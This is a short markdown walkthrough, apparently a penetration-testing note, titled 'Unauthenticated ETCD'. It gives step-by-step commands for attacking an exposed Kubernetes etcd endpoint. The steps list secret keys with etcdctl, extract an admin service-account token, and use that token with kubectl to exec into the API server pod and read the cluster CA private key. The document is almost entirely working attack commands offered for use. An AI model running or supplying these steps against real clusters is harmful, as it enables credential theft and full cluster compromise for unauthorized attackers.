 ## Unauthenticated ETCD

1. Exploiting this takes a couple of steps
2. Tell etcdctl to use etcd3 `export ETCDCTL_API=3`
3. First we need to dump some secrets out of the etcd database 
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[CLUSTERIP]:2379 get / --prefix --keys-only | grep token`
4. Then we'll need a service account token to authenticate to the cluster with. Looking through the list of accounts we can see an admins-account
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[IP]:2379 get /registry/secrets/default/admins-account-token-[RAND]`
  The service account token starts with ey and ends just before the word `kubernetes.io` in the token. 
5. With the service token we can use kubectl , first get the API pod name
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system get po`

6. Then get the key   
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`
